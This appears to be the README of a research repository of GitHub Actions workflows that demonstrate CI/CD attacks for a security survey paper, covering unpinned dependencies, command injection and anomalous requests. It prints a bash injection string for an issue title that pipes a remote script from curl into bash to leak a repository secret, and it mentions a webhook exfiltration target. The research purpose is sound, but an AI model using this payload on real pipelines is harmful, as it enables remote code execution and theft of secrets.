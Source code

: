 # CICD SoK Evaluators

This repository hosts the GitHub Actions evaluator pipelines showcased in the SoK: "Understanding CI/CD Security: A Comprehensive Review of Architecture, Attacks, and Defenses".

## Instructions

Each of the 7 evaluators are located inside of `.github/workflows/`, with documentation comments embedded within the workflows. The `src/` folder contains artifacts and code used by the workflows during their execution, and the `CMakeLists.txt` in the root of the repository defines the library portion of the "Unpinned Dependency" evaluation (consolidated from two repositories into one, for clarity).

This repository has two commits, the initial commit containing a non-exploited copy of `src/unpinned_lib`, configured to build `src/lib_unpinned/lib_unpinned.c`, whereas the newest commit builds `src/lib_unpinned/evil_lib_unpinned.c`.

Each of these workflows can be triggered by performing a [manual workflow dispatch](https://docs.github.com/en/actions/managing-workflow-runs-and-deployments/managing-workflow-runs/manually-running-a-workflow), with the exception of the simple and complex command injection workflows, which require opening an issue on the repository.

### Command Injection Workflows

For the simple and complex command injection workflows, you must craft the title of your issue to contain a bash command injection sequence, like the following:
```
RANDOM TEXT STRING" && curl -sSfL https://raw.githubusercontent.com/riversideresearch/CICD_SoK_Evaluators/main/src/injection/code.sh | bash && echo "
```

Additionally, you must define `$SUPER_DUPER_SECRET` (with any value) as a [secret/variable on GitHub](https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/store-information-in-variables), in order to observe its leakage.

### Anomalous Request

In order for the anomalous request evaluator to work, you must replace `https://webhook.site/your-webhook-url-here` with a valid webhook to send a request to.

